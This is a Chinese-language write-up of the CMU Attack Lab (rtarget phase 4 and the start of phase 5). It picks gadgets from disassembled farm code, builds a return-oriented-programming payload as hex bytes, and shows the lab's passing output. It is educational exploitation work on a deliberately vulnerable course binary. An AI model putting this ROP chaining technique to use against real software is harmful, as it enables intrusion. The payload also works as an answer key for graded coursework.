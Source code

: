 那么我们现在是希望该字段被送到edi或者rdi，通过查找movl和movq表，再对照farm内容，我们找到了三条数据，由于包含”49 89 c7”对应“movq rax, rdi”，所以就不用再去找中转了（与之相对的，level5需要）。

对比这三条，我选择了addval，因为后面直接跟着c3，对应汇编中的“retq”，取0x4019a0+2，即0x4019a2：

```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 [48 89 c7] c3   lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq

00000000004019ae <setval_237>:
  4019ae:	c7 07 [48 89 c7] c7   movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq

00000000004019c3 <setval_426>:
  4019c3:	c7 07 [48 89 c7] 90   movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq
```

最后，成功构造出指定输入，我用的塔式结构，也比较清晰易懂：）

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 40个空白字符 */
ab 19 40 00 00 00 00 00 /* 弹出目标数据给rax */
fa 97 b9 59 00 00 00 00 /* 目标数据 */
a2 19 40 00 00 00 00 00 /* rax传给rdi */
ec 17 40 00 00 00 00 00 /* touch2入口 */
```

```
[root@MiWiFi-R4A-srv target1]# ./hex2raw < rtarget.l4.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

## level5

首先我们先梳理一下touch3，其核心需求是让寄存器edi获得我们存放字符串的起始地址，所以我们其实需要准备三个东西：字符串、touch3入口、字符串地址。但是字符串地址我们是无法确定的，我们只能通过rsp间接确定其位置，于是我们的整个结构如下：

```
/* 40个空白字符 */
/* 1.传rsp的位置（也就是2.的位置）给寄存器x */
/* 2.获取偏移给rax*/
/* 3.偏移 即指令2.~5.的总长度 */
/* 4.x加上偏移（即地址）传给rdi */
/* 5.touch3入口 */
/* 6.字符串 */
```
